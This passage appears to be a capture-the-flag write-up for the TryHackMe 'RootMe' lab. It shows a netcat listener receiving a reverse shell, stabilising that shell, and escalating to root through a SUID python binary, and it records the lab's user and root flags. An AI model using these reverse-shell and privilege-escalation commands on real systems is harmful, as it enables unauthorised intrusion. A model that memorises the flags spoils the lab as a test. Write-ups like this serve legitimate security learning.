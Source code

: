 > Shell Balancing

```sh
┌──(rio㉿0xveil)-[~]
└─$ nc -lvnp 1234       
listening on [any] 1234 ...
connect to [10.9.6.58] from (UNKNOWN) [10.10.87.131] 41778
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:59:37 up 14 min,  0 users,  load average: 0.00, 0.37, 0.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'    
www-data@rootme:/$ ^Z  # Ctrl + z to go in background.
zsh: suspended  nc -lvnp 1234
                                                                                                                                      
┌──(rio㉿0xveil)-[~]
└─$ stty raw -echo;fg   # this will set the shell size according to our screen size and ; fg will get the shell background to foreground. 
[1]  + continued  nc -lvnp 1234
                               ^C
www-data@rootme:/$ ^C
www-data@rootme:/$ export TERM=xterm
www-data@rootme:/$ 
www-data@rootme:/$ 

# Now we can use ctrl + c to terminate any action inside the shell.

```

### User flag
* User flag is inside the `/var/www/` dir.
  * `THM{y0u_g0t_a_sh3ll}`


## Privilege Escalation

* for Priv Esc we can check SUID for root that we can access.
  * `find / -user root -perm -u=s 2>/dev/null` this command will find the list of file which we can assess that has SUID wih root.
  * In List we found the tool `python` that looks interesting.
  * Checking it on `GTFOBINS` `https://gtfobins.github.io/gtfobins/python/ ` found SUID.
    *  `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` this command will give us root shell.

```sh
www-data@rootme:/home/test$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# whoami
root
# cd /root
# ls
root.txt
```

### Root flag
* `THM{pr1v1l3g3_3sc4l4t10n}`



***